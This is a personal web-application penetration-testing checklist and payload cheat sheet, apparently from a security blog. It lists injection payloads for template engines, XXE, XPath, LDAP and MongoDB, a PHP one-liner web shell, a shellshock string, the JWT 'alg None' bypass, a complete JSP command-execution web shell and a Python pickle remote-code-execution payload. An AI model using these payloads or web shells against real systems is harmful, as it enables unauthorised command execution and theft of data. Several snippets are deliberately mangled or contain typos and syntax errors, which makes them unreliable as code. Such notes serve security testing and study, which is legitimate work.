 ```yaml
---
title: Web Application Methodology
date: 2021-09-19
categories:
  - Notes
tags:
  - Web App
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


<style>
  .fieldset
  {
      border:2px solid black;
      -moz-border-radius:8px;
      -webkit-border-radius:8px;	
      border-radius:8px;	
      font-size:12px;
      padding:10px;
      width:250px;
  }
  </style>

<h2 id="wtdvsawbapp">What to do vs a Web App</h2>

<ul>
    <li>check website is it php,asp or html</li>
    <li>check source code does it use cms</li>
    <li>Check robots.txt</li>
    <li>chech cert for useful info - subdomain?</li>
    <li>Gobuster dir and subdomain</li>
    <li>nikto</li>
    <li>Authorization vulns</li>
    <li>Code Injections? - can you control an input/data - eval(input)</li>
    <li>sqli? - https://www.hackingarticles.in/bypass-filter-sql-injection-manually/</li>
    <li>xxs?</li>
    <li>WIP</li>
    <li>SSRF</li>
    <li>Server-side template injection - {{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}} or {{url_for.__globals__.os.popen("id").read() }}</li>
    <li>xml entities - <!DOCTYP3 test [
      <!ENTITY x SYSTEM "file:///etxc/paxswd">]></li>
      <li>xpath - hacker']%00 or hacker' or 1=1]%00 --- ?name=hacker' or 1=1]/parent::*/child::node()%00&password=sdf</li>
</ul>

<h2>ldap</h2>
<li>null bind - delete username&password data in body</li>
<li>ldap wildcard - adm*))%00</li>

<h2>mongodb</h2>
<li>injection? - hyst'|| 1==1 %00</li>


<h2>basic php oneliner</h2>
<code>php system($requests['hyst']); ?></code>



<h2>shellshock</h2>
<code>() { :;}; echo; `command`</code>
<p>echo to add a black space between headers and body output</p>

<h2>JWT</h2>
<p>header.data.signature - all in base64</p>
<p>set alg to None - remove signature </p>

<h2>apache and tomcat</h2>
<p>encoding of .. = %252e%252e</p>
<p>/manager/html</p>

<fieldset>
  
  <legend>webshell</legend>
  <pre><code>
    <.FORM METHOD=GET ACTION='index.jsp'>
    <.INPUT name='cmd' type=text>
    <.INPUT type=submit value='Run'>
    <./FORM>
    <%@ page import="java.io.*" %>
    <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"<./br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <.pre><%=output %><./pre></code></pre>

      <p>remove dots after "<" save as .jsp</p>

</fieldset>

<h2>serialization</h2>
<h4>Python</h4>
<p>Pickle</p>

<fieldset>
  
  <legend>Python Serialization</legend>
  <pre><code>
    asdmport cPickle
    asdmport os
    
    asdclass Blah(object):
      def __reduce__(self):
        return (os.system,('command'.))'
    
    
    b = Blah()
    print cPickle.dumps(b)
    

</fieldset>

<li>run script</li>
<li>base64 encode result</li>
<li>replace server thingy</li>




<h2>ECB Vuln</h2>

<fieldset>
  
  <legend>ECB ruby to decode</legend>
  <pre><code>
% irb
> require 'base64' ; require 'uri'
 => true
> Base64.decode64(URI.decode("OR9hcp18%2BC1bChK10NlRRg%3d%3d"))
 => "9\x1Far\x9D|\xF8-[\n\x12\xB5\xD0\xD9QF"
    

</fieldset>


g0tmilk
